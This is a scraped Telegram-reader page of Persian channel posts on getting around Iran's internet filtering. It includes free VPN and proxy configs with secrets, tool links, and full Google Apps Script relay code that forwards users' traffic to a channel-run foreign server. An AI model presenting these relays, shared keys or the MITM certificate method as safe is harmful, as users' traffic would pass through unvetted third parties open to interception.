# خواننده تلگرام

<!-- TOP_NAV START -->

<!-- TOP_NAV END -->

<!-- MSG START -->

---
📅 بروزرسانی: 1405/02/22 21:10
---

## vpn_xvpn_ch — post 390

ایونت امشب تمومه چون سرور نداریم 😂

## vpn_xvpn_ch — post 389

  

خب موفق شدیم با حجم ترافیک غیر عادی سرور
و با موفقیت مسدود کنیم
😂😂

## vpn_xvpn_ch — post 388

👥 تعداد اعضای کانال : 971
📊 حجم ترافیک کلی : 275 گیگ
📊 حجم ترافیک مصرف شده : 240 گیگ
🔄 به روز رسانی بعدی ساعت 00:00

## vpn_xvpn_ch — post 387

  

ببینید وصله ولی دارید دانلود سنگین انجام میدید بقیه نمیتونن کانکت شن

## vpn_xvpn_ch — post 386

👥 تعداد اعضای کانال : 967
📊 حجم ترافیک کلی : 255 گیگ
📊 حجم ترافیک مصرف شده : 102 گیگ
🔄 به روز رسانی بعدی ساعت 23:30

## vpn_xvpn_ch — post 385

  <a href="https://t.me/vpn_xvpn_ch/385" target="_blank">📎 Download file</a>

کانفیگ رایگان داریم ولی به دلیل سو استفاده دوستان مجددا به صورت ناسرعت پر محدود
@vpn_xvpn_ch

## vpn_xvpn_ch — post 384

جدید میزارم این پرواز کرد

## vpn_xvpn_ch — post 382

👥 تعداد اعضای کانال : 957
📊 حجم ترافیک کلی : 205 گیگ
📊 حجم ترافیک مصرف شده :0 گیگ
🔄 به روز رسانی بعدی ساعت 23:00

## vpn_xvpn_ch — post 381

ایونت امشب ساعت 10:30 شروع میشه

## vpn_xvpn_ch — post 380

شبتون بخیر 🌹

## vpn_xvpn_ch — post 379

👥 تعداد اعضای کانال : 916 📊 حجم ترافیک کلی : 356 گیگ 📊 حجم ترافیک مصرف شده :360 گیگ⛔

## vpn_xvpn_ch — post 378

👥 تعداد اعضای کانال : 916
📊 حجم ترافیک کلی : 356 گیگ
📊 حجم ترافیک مصرف شده :360 گیگ⛔

## vpn_xvpn_ch — post 377

دانلود سنگین نکنید بقیه هم بتونن استفاده کنند

## vpn_xvpn_ch — post 376

👥 تعداد اعضای کانال : 912
📊 حجم ترافیک کلی : 336 گیگ
📊 حجم ترافیک مصرف شده :242 گیگ
🔄 به روز رسانی بعدی ساعت 02:00

## vpn_xvpn_ch — post 375

  <a href="https://t.me/vpn_xvpn_ch/375" target="_blank">📎 Download file</a>

کانفیگ رایگان داریم ولی به دلیل سو استفاده دوستان مجددا به صورت ناسرعت پر محدود
@vpn_xvpn_ch

## vpn_xvpn_ch — post 374

کانفیگ جدید همزمان با بروز رسانی ساعت 01:30

## vpn_xvpn_ch — post 373

👥 تعداد اعضای کانال : 890
📊 حجم ترافیک کلی : 226 گیگ
📊 حجم ترافیک مصرف شده : 160 گیگ
🔄 به روز رسانی بعدی ساعت 01:00

## vpn_xvpn_ch — post 372

  <a href="https://t.me/vpn_xvpn_ch/372" target="_blank">📎 Download file</a>

کانفیگ رایگان داریم ولی به دلیل سو استفاده دوستان مجددا به صورت ناسرعت پر محدود 😂
@vpn_xvpn_ch

## vpn_xvpn_ch — post 371

🎁 @vpn_xvpn_ch.npvt

## vpn_xvpn_ch — post 370

  

نزدیک 100 مگابایت بر ثانیه دارید دانلود میکنید بعد میگین کنده 😑😂

## khosrow_v2ray — post 759

  

دوستان یک نکته راجع به این قضیه سعی کنید از تلگرام اپ استفاده نکنید چون خیلی ریکوئست می‌ده و لیمیت گوگل اسکریپتتون سریع تموم می‌شه اگر از تلگرام وب استفاده کنید خیلی بیشتر می‌شه ازش کار کشید یوتیوب و اینا هم اوکی‌ان کاملا @khosrow_v2ray

## khosrow_v2ray — post 758

درود برای متد mhr-cfw و mhr-cfw-go براتون یه سرور خارج ران کردیم که طی تست‌های خودمون سرعتش از متد Goose خیلی بالاتر و قابل تحمل‌تر بود. برای راه‌اندازی، مثل روش Goose ابتدا وارد script.google.com می‌شید و این اسکریپت رو دیپلوی می‌کنید: const AUTH_KEY =…

## khosrow_v2ray — post 757

## khosrow_v2ray — post 756

عذرخواهی می‌کنم بخاطر عجله‌ای شدن این مورد
لطفا اگر این مورد رو تست کردید بهمون فیدبک بدید که ببینیم خروجیش چطوریه
برای یوتیوب و ایکس و تلگرام وب و این‌ها باید خوب جواب بده
اگر خوب بود سرور اضافه می‌کنیم و براش آموزش مفصل‌تر می‌سازیم ❤️️️️️️️

@khosrow_v2ray

## khosrow_v2ray — post 755

  <a href="https://t.me/khosrow_v2ray/755" target="_blank">📎 Download file</a>

درود برای متد mhr-cfw و mhr-cfw-go براتون یه سرور خارج ران کردیم که طی تست‌های خودمون سرعتش از متد Goose خیلی بالاتر و قابل تحمل‌تر بود. برای راه‌اندازی، مثل روش Goose ابتدا وارد script.google.com می‌شید و این اسکریپت رو دیپلوی می‌کنید: const AUTH_KEY =…

## khosrow_v2ray — post 754

درود
برای متد mhr-cfw و mhr-cfw-go براتون یه سرور خارج ران کردیم که طی تست‌های خودمون سرعتش از متد Goose خیلی بالاتر و قابل تحمل‌تر بود.

برای راه‌اندازی، مثل روش Goose ابتدا وارد script.google.com می‌شید و این اسکریپت رو دیپلوی می‌کنید:

const AUTH_KEY = "@khosrow_v2ray";
const WORKER_URL = "http://65.109.214.96:8080";

const SKIP_HEADERS = {
host: 1, connection: 1, "content-length": 1,
"transfer-encoding": 1, "proxy-connection": 1, "proxy-authorization": 1,
};

function doPost(e) {
try {
var req = JSON.parse(e.postData.contents);
if (req.k !== AUTH_KEY) return _json({ e: "unauthorized" });

if (Array.isArray(req.q)) return _doBatch(req.q);
return _doSingle(req);

} catch (err) {
return _json({ e: String(err) });
}
}

function _doSingle(req) {
if (!req.u || typeof req.u !== "string" || !req.u.match(/^https?:\/\//i)) {
return _json({ e: "bad url" });
}

var payload = _buildWorkerPayload(req);

var resp = UrlFetchApp.fetch(WORKER_URL, {
method: "post",
contentType: "application/json",
payload: JSON.stringify(payload),
muteHttpExceptions: true,
followRedirects: true
});

try {
return _json(JSON.parse(resp.getContentText()));
} catch (e) {
return _json({ e: "invalid worker response", raw: resp.getContentText() });
}
}

function _doBatch(items) {
var fetchArgs = [];
var errorMap = {};

for (var i = 0; i < items.length; i++) {
var item = items[i];

if (!item.u || typeof item.u !== "string" || !item.u.match(/^https?:\/\//i)) {
errorMap[i] = "bad url";
continue;
}

var payload = _buildWorkerPayload(item);

fetchArgs.push({
_i: i,
_o: {
url: WORKER_URL,
method: "post",
contentType: "application/json",
payload: JSON.stringify(payload),
muteHttpExceptions: true,
followRedirects: true
}
});
}

var responses = [];
if (fetchArgs.length > 0) {
responses = UrlFetchApp.fetchAll(fetchArgs.map(function(x) { return x._o; }));
}

var results = [];
var rIdx = 0;

for (var i = 0; i < items.length; i++) {
if (errorMap.hasOwnProperty(i)) {
results.push({ e: errorMap[i] });
} else {
var resp = responses[rIdx++];
try {
results.push(JSON.parse(resp.getContentText()));
} catch (e) {
results.push({ e: "invalid worker response", raw: resp.getContentText() });
}
}
}

return _json({ q: results });
}

function _buildWorkerPayload(req) {
var headers = {};

if (req.h && typeof req.h === "object") {
for (var k in req.h) {
if (req.h.hasOwnProperty(k) && !SKIP_HEADERS[k.toLowerCase()]) {
headers[k] = req.h[k];
}
}
}

return {
u: req.u,
m: (req.m || "GET").toUpperCase(),
h: headers,
b: req.b || null,
ct: req.ct || null,
r: req.r !== false
};
}

function doGet(e) {
return HtmlService.createHtmlOutput(
"<!DOCTYPE html><html><head><title>My App</title></head>" +
'<body style="font-family:sans-serif;max-width:600px;margin:40px auto">' +
"<h1>Relay Active</h1>
Cloudflare Worker routing enabled.
" +
"</body></html>"
);
}

function _json(obj) {
return ContentService
.createTextOutput(JSON.stringify(obj))
.setMimeType(ContentService.MimeType.JSON);
}

بعد وارد فایل json تنظیمات mhr-cfw یا mhr-cfw-go می‌شید و اسکریپت آی‌دیتون رو ست می‌کنید
بعد داخل هر اپ v2rayای دارید اضافه می‌کنید پروکسیش رو سیستم پراکسی می‌کنید و رمز auth key رو برابر با آی‌دی کانال می‌ذارید

@khosrow_v2ray

و وارد یوتیوب، تلگرام وب، توییتر (ایکس) یا وبسایت‌های دیگه می‌شید
تا چند دقیقه دیگه یک ویدیو مختصر براش می‌ذارم

@khosrow_v2ray

## khosrow_v2ray — post 753

برای متد Goose، یه سرور خارج براتون ران کردیم که بتونید فقط با دیپلوی کردن اسکریپت روی گوگل اسکریپتز، متصل بشید صرفا وارد script.google.com بشید و این رو دیپلوی کنید: const RELAY_URL = 'http://65.109.214.96:8443/tunnel'; function doPost(e) { bumpInvocationCount_();…

## khosrow_v2ray — post 752

  <a href="telegram/content/khosrow_v2ray_752_1778607647.mp4" target="_blank">🎬 Download video</a>

برای متد Goose، یه سرور خارج براتون ران کردیم که بتونید فقط با دیپلوی کردن اسکریپت روی گوگل اسکریپتز، متصل بشید صرفا وارد script.google.com بشید و این رو دیپلوی کنید: const RELAY_URL = 'http://65.109.214.96:8443/tunnel'; function doPost(e) { bumpInvocationCount_();…

## khosrow_v2ray — post 751

لطفا تست کنید و نتیجه رو بهمون بگید
اگر اوکی باشه، چندتا سرور خارجی دیگه هم اد می‌کنیم ❤️️️

@khosrow_v2ray

## khosrow_v2ray — post 750

ویندوز:
https://guardnet.ir/f/4a8c7f607701
لینوکس:
https://guardnet.ir/f/9aa54edf7817
مک:
https://guardnet.ir/f/547feaf5174a

@khosrow_v2ray

## khosrow_v2ray — post 747

  <a href="https://t.me/khosrow_v2ray/747" target="_blank">📎 Download file</a>

کلاینت‌های Goose برای ویندوز، لینوکس و مک‌ (سری M)

@khosrow_v2ray

## khosrow_v2ray — post 746

برای متد Goose، یه سرور خارج براتون ران کردیم که بتونید فقط با دیپلوی کردن اسکریپت روی گوگل اسکریپتز، متصل بشید
صرفا وارد script.google.com بشید و این رو دیپلوی کنید:

const RELAY_URL = 'http://65.109.214.96:8443/tunnel';

function doPost(e) {
bumpInvocationCount_();
const payload = (e && e.postData && e.postData.contents) || '';
const resp = UrlFetchApp.fetch(RELAY_URL, {
method: 'post',
contentType: 'text/plain',
payload: payload,
muteHttpExceptions: true,
followRedirects: false,
deadline: 30,
});
return ContentService
.createTextOutput(resp.getContentText())
.setMimeType(ContentService.MimeType.TEXT);
}

function doGet() {
const props = PropertiesService.getScriptProperties();
const today = pacificDateKey_();
const count = parseInt(props.getProperty('count_' + today) || '0', 10);
const out = { ok: true, date: today, count: count };
return ContentService
.createTextOutput(JSON.stringify(out))
.setMimeType(ContentService.MimeType.JSON);
}

function pacificDateKey_() {
return Utilities.formatDate(new Date(), 'America/Los_Angeles', 'yyyy-MM-dd');
}

function bumpInvocationCount_() {
try {
const props = PropertiesService.getScriptProperties();
const today = pacificDateKey_();
const key = 'count_' + today;
const raw = props.getProperty(key);
if (raw === null) {
pruneStaleCounts_(props, today);
}
const cur = raw === null ? 0 : parseInt(raw, 10);
props.setProperty(key, String(cur + 1));
} catch (err) {
}
}

function pruneStaleCounts_(props, today) {
const keys = props.getKeys();
const keep = 'count_' + today;
for (let i = 0; i < keys.length; i++) {
const k = keys[i];
if (k.indexOf('count_') === 0 && k !== keep) {
props.deleteProperty(k);
}
}
}

و بعد فایل کلاینت Goose مربوط به سیستم عاملتون رو دانلود کنید، اکسترکت کنید، یه فایل به نام client_config.json بسازید و بعد این رو بندازید توش:

{
"debug_timing": false,
"socks_host": "127.0.0.1",
"socks_port": 1080,
"google_host": "216.239.38.120",
"sni": ["www.google.com", "mail.google.com", "accounts.google.com"],
"script_keys": [
"PUT_YOUR_SCRIPT_ID_HERE"
],
"tunnel_key": "89a4d4fff740c82077fa205a15b145c93bd559ee39d5e4910b35968433b0498d"
}

صرفا script key خودتون که دیپلوی کردید رو بندازید توش

بعد روی کلاینت v2rayای که دارید این پراکسی ساکس رو اد می‌کنید:

socks5://127.0.0.1:1080

سیستم پراکسی می‌کنید و در نهایت وارد https://myip.ms می‌شید و آی‌پیتون باید آلمان شده باشه

@khosrow_v2ray

## khosrow_v2ray — post 744

  

Goose–Relay–VPN.pdf

## khosrow_v2ray — post 743

این هم ویدئوی آموزشیش:
https://t.me/iaghapour/2563

## khosrow_v2ray — post 741

  <a href="https://t.me/khosrow_v2ray/741" target="_blank">📎 Download file</a>

آموزش کامل
متود Goose–Relay–VPN
بصورت PDF
سرعت: بهتر از MHRV
حجم: مشابه MHRV
پیش‌نیاز: نیاز به سرور خارج دارد،
اما نیازی به MITM و سرتیفیکیت ندارد.
گیتهاب پروژه:
https://github.com/Kianmhz/GooseRelayVPN

## khosrow_v2ray — post 740

آموزش دانلود ویدیوهای یوتیوب و همچنین فایل بدون محدودیت حجم با استفاده از sandbox در گیت‌هاب نکته: برای اینکه بتونید از این استفاده کنید باید روی اینترنتتون گیت‌هاب باز باشه که الان روی اکثر اینترنت‌ها باز و اوکی هست استفاده از این روش خیلی ساده هست ریپو:…

## khosrow_v2ray — post 739

آموزش دانلود ویدیوهای یوتیوب و همچنین فایل بدون محدودیت حجم با استفاده از sandbox در گیت‌هاب نکته: برای اینکه بتونید از این استفاده کنید باید روی اینترنتتون گیت‌هاب باز باشه که الان روی اکثر اینترنت‌ها باز و اوکی هست استفاده از این روش خیلی ساده هست ریپو:…

## xsfilterrnet — post 3414

  

IRCF | اینترنت آزاد برای همه (Twitter/X)

🍷اپ متن‌باز و #رایگان TunnelX برای زمانی ساخته شده که کاربر نمیخواد تمام ترافیک در سیستم‌عامل ویندوز از VPN عبور کنه. با این برنامه میشه فقط برنامه‌هایی مثل مرورگر، تلگرام، ابزارهای توسعه یا برنامه‌های مشخص دیگه رو وارد تانل کرد و بقیه ترافیک سیستم رو روی اینترنت عادی نگه داشت.

لینک پروژه:
⚡️
http://github.com/MaxiFan/TunnelX/releases/latest

@xsfilterrnet 
👑

## xsfilterrnet — post 3413

🍷aio‑downloader
🍷

اسکریپت AIO Downloader یه ابزار متن‌باز و کاربردی برای دانلود فایل و محتوا از سرویس‌هایی مثل یوتیوب، گیت‌هاب، اینستاگرام، ایکس، تلگرام، گوگل‌پلی، تیک‌تاک، پینترست، ساندکلود و ... هست، که فرایند دانلود رو از طریق GitHub Actions انجام میده.
این ابزار طوری طراحی شده که در شرایط محدودیت شدید اینترنت و وایت‌لیست فعلی بتونه بسیاری از فایل‌ها و لینک‌ها رو دریافت کنه، بدون اینکه نیاز باشه سیستم یا سرور شخصی برای دانلود داشته باشین.

با توجه به اینکه این پروژه به GitHub Actions متکیه، بهتره برای استفاده ازش از اکانت اصلی گیت‌هاب استفاده نکنین و ترجیحاً یک اکانت جداگانه بسازین.
لینک پروژه:
⚡️

https://github.com/ProAlit/aio-downloader

## xsfilterrnet — post 3412

  <a href="telegram/content/xsfilterrnet_3412_1778607649.webm" target="_blank">🎬 Download video</a>

خوشحال میشم گروه چنل رو داشته باشید رفقا
🥳
(راستی متین هم گروهش رو پاک کرده جهت اطلاع)

https://t.me/xsfilternetchat

## xsfilterrnet — post 3410

🍷MITM-DomainFronting v12

اول اینکه این متد قرار نیست کانفیگ شما را زنده کند و دسترسی کامل به اینترنت را فراهم کند بلکه باعث میشود برخی سرویسهای خاص به طور مستقیم (بدون نیاز به سرور و یا حتی ورکر) در دسترس قرار گیرند

در حال حاضر (۱۴۰۵/۱/۳۱) اجرای این متد فقط امکان دسترسی به سرویسهای گوگل (meet, drive, ...) و بعضی سایتهای پشت vercel شامل (vercel.com,...) و بعضی سایتهای پشت fastly شامل (reddit,github,cnn,...) و سایت netlify را فراهم میکند

بعضی سرویسها مانند فیلمهای یوتویوب سرویس مخصوص خود را دارند و بعضی از سرویسها مانند gemini نیز آیپی‌های ایران را تحریم کرده‌اند بنابراین تمام سرویسهای گوگل در دسترس نیستند.

به محض اینکه هر سرویس دیگری با این متد در دسترس باشد اپدیت لازم را انجام خواهم داد.

این متد بر روی ویندوز، لینوکس، مک و اندروید (بدون نیاز به روت) قابل اجراست.

///

این پروژه را ابتدا من در اینجا نوشتم و سپس با تلاشهای انجام شده در اینجا به Xray-core اضافه کردیم و یعنی اکنون میتوانید با یک کانفیگ ساده‌ی v2ray از این متد استفاده کنید.

نحوه کارکرد متد همانطور که از اسمش پیداست ابتدا هویت سرور اصلی را جعل میکند تا دیتای غیر رمز شده را از مرورگر دریافت کند سپس با یک sni جعلی آن را به سرور اصلی میفرستد.

تنظیم اولیه متد مراحل کمی طولانی دارد ولی بعد از انجام تنظیمات صرفا یک روشن/خاموش ساده برای فعال/غیرفعال کردن متد لازم است.

لینک پروژه:
⚡️
https://github.com/patterniha/MITM-DomainFronting

@xsfilterrnet 
👑

## xsfilterrnet — post 3409

🍷پروژه Twoman

برای #تانل با cPanel

توضیحات:
💡
نسخه 1.0.7 پروژه Twoman منتشر شد.

این نسخه بیشتر روی پایداری و تمیزتر شدن مسیر 1.0 تمرکز داره.

مهم‌ترین تغییر اینه که استفاده‌ی همزمان چند نفر بهتر شده. از این نسخه به بعد، نسخه‌های لینوکس، اندروید و دسکتاپ برای هر نصب یک شناسه‌ی جدا نگه می‌دارن؛ یعنی چند نفر می‌تونن یک کانفیگ مشترک رو وارد کنن، بدون اینکه اتصال همدیگه رو خراب کنن یا جای همدیگه رو بگیرن.

چند تغییر مهم دیگه:

- مشکل بالا آمدن همزمان چند کلاینت روی پورت‌های موقت بهتر شد
- وقتی سمت هاست reset اتفاق می‌افته، ارسال داده منطقی‌تر و آروم‌تر برمی‌گرده
- نسخه و اطلاعات build توی بخش‌های مختلف پروژه قابل مشاهده‌تر شده
- نصب نسخه‌ی مشخص، مثل 1.0.7، راحت‌تر شده
- تست چند کلاینت همزمان انجام شد و مشکل جایگزین شدن کلاینت‌ها دیده نشد

Twoman کم‌کم داره از یک ایده‌ی تجربی به چیزی قابل نصب‌تر، پایدارتر و نزدیک‌تر به استفاده‌ی واقعی تبدیل میشه

لینک #پروژه:
⚡️

https://github.com/ShahabSL/twoman

@ShahabSL 
💎
@xsfilterrnet 
👑

## xsfilterrnet — post 3408

  <a href="https://t.me/xsfilterrnet/3408" target="_blank">📎 Download file</a>

WhiteDNS_Resolvers.txt

## xsfilterrnet — post 3407

🍷روی برخی #اپراتور ها Quad9 متصل شده dns تست کنید رفقا
❗️

Dns:
✅
149.112.112.112
9.9.9.9

Doh:
✅
https://dns.quad9.net/dns-query

@xsfilterrnet 
👑

## xsfilterrnet — post 3406

#jadi

🍷روشی دیگه برای رسیدن به اینترنت از روی گیت‌هاب، g2ray

https://youtu.be/0KSpdd9g6g8?si=Xx6SiufNXkVZT4aR

📥 لینک دانلود داخلی۱

📥 لینک دانلود داخلی۲

## xsfilterrnet — post 3405

❗️ هم اکنون اختلال در زیرساخت فیلترنت کشور

طبق گزارش‌های کاربران، هم‌اکنون کاهش پهنای باند و #اختلال گسترده‌ای در زیرساخت اینترنت کشور رخ داده و برخی سرویس‌دهنده‌ها با قطعی یا از دسترس خارج شدن مواجه شده‌اند.

بر اساس این گزارش‌ها، سرورهای شاتل، مبین‌نت، ایرانسل و رسپینا دچار اختلال شده‌اند و همزمان بسیاری از سرویس‌ها، هاست‌ها و خدمات داخلی نیز با اختلال و کندی شدید مواجه شده‌اند.

همچنین گزارش‌ها حاکی از آن است که برخی VPNها نیز دچار اختلال شدند و یا اتصال آن‌ها به‌طور کامل قطع شده است.
-رادار

@xsfilterrnet 
👑

## xsfilterrnet — post 3404

🍷ریورس تانل
برای این روش به یه سرور خارج از ایران که به CDN داخلی دسترسی داشته باشه و یه سرور داخل ایران و یه دامنه پشت CDN داخلی نیاز دارید.

آموزش داخل ویدیو با لینک داخلی:
⚡️

https://c795577.parspack.net/c795577/v1/2026-05-08/a2171d2dfceab6115bead921067801ce.mp4

لینک اصلی ویدیو

@xsfilterrnet 
👑

## xsfilterrnet — post 3403

🍷من باینریهای کامپایل شده از نسخه مودیفای شده rclone با قابلیت domain fronting رو هم اینجا منتشر کردم. داکر ایمیجش هم هست. میتونید دانلود کنید و روی لینوکس، ویندوز و مک اجرا کنید.
لازمه توی دستوراتی که برای ارتباط با #گوگل درایو میزنید، این پارامترها رو بدید:

--fronting-enable --fronting-target google.com‎ --fronting-domains "*.google.com,*.googleapis.com,*.googleusercontent.com"

لینک پروژه:
⚡️
https://github.com/aleskxyz/rclone/releases/tag/v1.73.5-1

منبع توییتر

@xsfilterrnet 
👑

## xsfilterrnet — post 3402

  <a href="https://t.me/xsfilterrnet/3402" target="_blank">📎 Download file</a>

🍷۵۱۲ ریزالور جدید تست شده تیم WhiteDNS

مخصوص اتصال StormDNS/MasterDNS

@WhiteDNS 
💎
@xsfilterrnet 
👑

## xsfilterrnet — post 3401

🍷وایت لیست:

lh3.googleusercontent.com

برای MHR و FlowDriver و ... میتونید استفاده کنید
⚡️

منبع توییتر
آموزش های مربوطه

@xsfilterrnet 
👑

## xsfilterrnet — post 3400

  

🍷ربات آپلودر روی Raw گیت هاب!!
باید اول #پروژه رو فورک کنید
و از گیت هاب توکن بگیرید
و توکن رو با آدرس ریپو ست کنید داخل ربات تو ردمی ریپو نوشته شده
یا میتونید از AI های گرامی بپرسید توضیح میدن
❗️

فایل یا لینک بهش بدید براتون آپلود می‌کنه
بعد میتونید حتی zip با پسورد یا بدون پسورد آپلود کنید باهاش
و ویدیو های #یوتیوب هم لینک رو بدید بهش
اوکی می‌کنه
خلاصه که اگه گیت هاب اکشنی اش رو میخواهید پروژه این هست که مفورک زده شده
توضیحات ام داخل Readme هست :
github.com/nscl5/sandbox

آدرس بات پروژه:
⚡️

@RGitUpBot

سورس خود پروژه:
💡
github.com/arshiacomplus/sandbox/

@Acplus_Channel 
💎
@xsfilterrnet 
👑

## xsfilterrnet — post 3398

  

🚀 پروژه AzuDL - GC2GD

پروژه AzuDL - GC2GD یک ابزار کاربردی برای دانلود فایل‌ها از طریق Google Colab و ذخیره مستقیم آن‌ها روی Google Drive است.

💡 با این ابزار می‌تونید لینک‌های مختلف رو داخل گوگل کلب اجرا کنید و فایل نهایی رو مستقیم داخل گوگل درایو تحویل بگیرید؛ سپس با متود MHR فایل نهایی رو دریافت کنید.

قابلیت‌های اصلی پروژه:
⚡️

✔️ دانلود لینک مستقیم روی Google Drive

✔️ دانلود ویدیو و پلی‌لیست YouTube

✔️ انتخاب کیفیت ویدیو

✔️ استخراج فایل صوتی MP3

✔️ دانلود Magnet / Torrent

✔️ دانلود چندتایی یا Batch Download

✔️ تشخیص خودکار نوع لینک

✔️ نمایش نوار پیشرفت دانلود

✔️ ذخیره تاریخچه دانلودها

✔️ مدیریت فایل‌های دانلودشده


🚀 ویدیوی آموزشی پروژه در تلگرام:
https://t.me/luluch_code/22941

🔗 لینک‌های مهم:

🐱 سورس پروژه در GitHub:
https://github.com/TheGreatAzizi/AzuDL-GC2GD

👩‍💻 سورس پروژه در Git سلف‌هاست:
https://git.theazizi.ir/TheAzizi/AzuDL-GC2GD

📌 وبسایت Google Colab:
https://colab.research.google.com

📌 وبسایت Google Drive:
https://drive.google.com

🗣️ اینترنت برای همه، یا هیچ‌کس!

👑 @xsfilterrnet

🗣 @luluch_code

🏠 theazizi.ir

## xsfilterrnet — post 3396

  

💡درود به همه رفقا لطفا در این #نظرسنجی کمکم کنید برای ۳ تا ایده

⚡️ایده اول: روش های رایگان رو بیشتر جلوه بدم داخل چنل

⚡️ایده دوم:سعی بر روش رایگان و پایین آوردن قیمت فروش در کانفیگ ها کنم تا بقیه همراه من بشن(با تضمین)

⚡️ایده سوم:پروژه کانفیگ اهدایی رو شروع کنم با دونیت های شما!

رفقا لطفا ایده های خودتوت در داخل گروه یا کامنت به من بگید این کار باعث کمک کردن شما برای دسترسی بیشتر خیلی از هم میهنان خودمون میشه با سپاس از شما
🍷

#اینترنت_برای_همه_یا_هیچکس

@xsfilterrnet 
👑

## xsfilterrnet — post 3393

  

🍷اپ TeleMirror یه تلاش آزمایشی برای دریافت آخرین مطالب کانال #تلگرام خودم و سایر کانال‌های موردنظر در شرایط محدودیت شدید اینترنته، که سعی می‌کنه با چند روش مختلف پست‌ها رو بگیره و نمایش بده. این برنامه #رایگان و متن‌بازه و فعلا می‌تونه برای دنبال کردن اخبار…

## xsfilterrnet — post 3392

  <a href="https://t.me/xsfilterrnet/3392" target="_blank">📎 Download file</a>

🍷آموزش کامل و آسان متود ZYRLN–CFW
برای موبایل، بصورت PDF
سرعت: مشابه MHRV
حجم: روزانه ۲۰ + ۱۰۰ هزار ریکوئست
مزیت نسبت‌به MHR: تعداد ریکوئست بیشتر، تغییر آیپی و حل مشکل کپچا، دسترسی به تمام سایت‌ها از جمله: یوتیوب — اینستاگرام — تلگرام و هوش‌مصنوعی‌ها: گراک، کلاد و جمنای(از طریق گوگل استودیو)
پیش‌نیاز: اکانت کلادفلر، اکانت اپ اسکریپت‌ گوگل، (بدون نیاز به سرور و ترموکس و پایتون!)
ZIP Password: @TheVPNMethod
دانلود کامل آموزش PDF — فایل‌های لازم پروژه و اپ مورد نیاز پروژه با لینک داخلی:
https://punkpaste.ir/f/ZYRLN-CFW-RELAY-4l1x52
گیتهاب پروژه:
⚡️
https://github.com/ajavadinezhad/zyrln

@TheVPNMethod 
💎
@xsfilterrnet 
👑

## xsfilterrnet — post 3389

🍷‏پروژه zyrln بر پایه ایده mhr-cfw ساخته شده، با این فرق که با زبان Go بازنویسی شده و این بار کلاینت اندروید هم داره

‏اپ اندروید مثل v2rayNG کار می‌کنه. چند کانفیگ مختلف ذخیره می‌کنی و هر وقت لازم شد بینشون جابه‌جا می‌شی. نیازی به روت نیست و کل ترافیک گوشی از relay رد می‌شه

‏سرور exit رو می‌تونی روی VPS خودت اجرا کنی که آی‌پی ثابت داری که از نظر #گوگل رخواست‌های ربات حساب نمی‌شه. اگه VPS نداری Cloudflare Worker هم گزینه خوبیه

‏نسخه دسکتاپ (CLI) هم هست. مرورگر رو روش تنظیم می‌کنی و سایت‌های فیلتر شده باز می‌شن.

‏مستندات کامل داره. از راه‌اندازی Apps Script و VPS تا build کردن APK #اندروید، همه چیز مرحله به مرحله توضیح داده شده.

لینک پروژه:
⚡️
https://github.com/ajavadinezhad/zyrln

## xsfilterrnet — post 3388

  

🍷اپ TeleMirror یه تلاش آزمایشی برای دریافت آخرین مطالب کانال #تلگرام خودم و سایر کانال‌های موردنظر در شرایط محدودیت شدید اینترنته، که سعی می‌کنه با چند روش مختلف پست‌ها رو بگیره و نمایش بده.
این برنامه #رایگان و متن‌بازه و فعلا می‌تونه برای دنبال کردن اخبار تلگرامی بدون نیاز به فیلترشکن، یه گزینه موقت و کاربردی واسه دسکتاپ باشه.

لینک پروژه:
⚡️
http://github.com/ircfspace/teleMirror/releases/latest

(پخت و پز عشق ircf)

📥 لینک دانلود نت داخلی arm64

📥 لینک دانلود نت داخلی x64

@ircfspace 
💎
@xsfilterrnet 
👑

## saministamm — post 62686

Slipnet متصل :

slipnet-enc://ATxLC3CqYL2kfDSq+kM1D8cAHxXLPrzg+72kPQOEz8w1HzqWdL0B9bBPmTkufougkNY+JbAd1cKGtZ60X8RygxvwuvR39E/F/EE5tMv3eWkcSF286ewgP336p/qAtmrZzg1OtX23Q0KOR6WVGPeHSculhJkfq/sBQ6u5cIV0MkflgFkJ0cquWl+4i8Zd+UUkJqo5k2lJmuWIRB1vfQ/JW/eUq3cYkWTntRDn+Upq6m962x5gRru4/VPqfLToSvZSZsvoZqjy08M6enuhHJ9G8uGpMSy0HrMLVktEUsJfgjI6HLKC0zqK/egTlisXVBSn7M947Wxpj7UCfwYLi84Lyj8pKaEcWPbrVp7ChjP4EdpXr8xLEhAFL4VaFz/pTK9sSvjPBDoMuZOOW40nWCKqjKKnb7lq2oj25x7+Xr1UeshLwVGSsMXdZo2FNnaQO+H6lgGoW12fbwhqH/GUsN4mMnhK4co8gARBsNYjTCCe208EuWsRGz+Yl57qyL++Kxbc43NeUC/xDJVer42p4s4WD0Lf6YCvBDmKhR4+P4HYPfbiqhEZTQcRjja+AxQjG4aGRGl89YgA9KHPRONpMhOAnEaM9VNFHDXDwEluoBEIb6ZLnakWkJMC5DSPdjCGYFNmQ3mT92C1u5ce2lh2qDaeiD0mlP8i7RKoD84p56SIVdAtO12USp3XWmvTzEieTuM+2pxTm+IeRwqIeLaVwOBLAnR8VDBRDZKgbHAU0sAVjxvT2h19eYt6cN21cWBGvzWCNxTYHz4E9nB6QQTjRLph/aeC9vlFnsM94PE=

## saministamm — post 62685

پروکسی متصل :

https://t.me/proxy?server=194.120.230.199&port=25565&secret=dd79e344818749bd7ac519130220c25d09

## saministamm — post 62684

ترکیب وصل بزنید :

vless://08cd588d-8923-40fb-8216-c5a112a259b9@www.varzesh3.com:2095?path=%2Fchat%3Fed%3D128&security=&encryption=none&host=dl2.mizbanertebatfarda.ir&type=ws#saministamm

## saministamm — post 62683

ترکیبی وصله عشقا :
socks://telegram-saministamm@62.220.126.92:32302#%43%6F%6E%66%69%78%69%6F%40

## saministamm — post 62676

پروکسی وصل با صبر :

https://t.me/socks?server=62.220.126.92&port=32024

## saministamm — post 62675

ترکیبی متصل :
vless://telegram-dickiriptorbot@13.249.2.122:443?path=%2F&security=tls&encryption=none&insecure=1&host=dbw9jfe94rh28.cloudfront.net&type=ws&allowInsecure=1&sni=3.173.21.63#saministamm

## saministamm — post 62674

پروکسی متصل :

https://t.me/proxy?server=91.107.189.181&port=8443&secret=dd104462821249bd7ac519130220c25d09

## saministamm — post 62673

ویتوری + سایفون

socks://Og@185.164.72.228:7897#%DB%B7%DB%B2

@saministamm

## saministamm — post 62672

ترکیبی بزنید :
vless://f118f2ae-d298-46f6-b4cf-7f5032922c9d@out.pixserver.ir:17107?type=tcp&encryption=none&security=none#@saministamm

## saministamm — post 62671

Host: 37.32.15.207
Port: 8888

Host: 193.151.131.61
Port: 1111

Host: 45.82.136.180
Port: 22888

Host: 87.107.54.147
Port: 8888
@saministamm

## saministamm — post 62670

